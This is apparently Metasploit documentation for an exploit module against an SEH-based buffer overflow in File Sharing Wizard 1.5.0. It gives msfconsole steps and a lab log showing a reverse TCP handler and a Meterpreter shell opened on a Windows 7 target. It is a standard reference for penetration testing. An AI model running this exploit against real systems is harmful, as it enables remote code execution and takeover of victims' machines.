 ## Description

This module exploits a vulnerability in File Sharing Wizard version 1.5.0 which
allows a remote attacker to obtain arbitrary code execution by exploiting a Structured Exception Handler (SEH) based buffer overflow in an HTTP POST parameter.

## Vulnerable Application

This module has been tested successfully on:

 * Windows 7 x86 SP1

The application installer is linked below

[File Sharing Wizard Installer](https://www.exploit-db.com/apps/da3a3626f99a85f9ab59ab77f083ff80-fs-wizard-setup.exe)

Once installed run the application and click "Start" to enable the server.

## Verification Steps

 1. Start `msfconsole`
 2. Do: `use exploits/windows/http/file_sharing_wizard_seh`
 3. Do: `set rhosts [IP]`
 4. Do: `run`
 5. Your payload should get executed

## Scenarios

```
msf > use exploit/windows/http/file_sharing_wizard_seh
msf exploit(windows/http/file_sharing_wizard_seh) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf exploit(windows/http/file_sharing_wizard_seh) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.101:80 - Connecting to target
[*] 192.168.56.101:80 - Sending payload to target
[*] Sending stage (180291 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.101:49164) at 2019-10-03 23:09:18 +0100

meterpreter > sysinfo
Computer        : TARGET
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter >
```
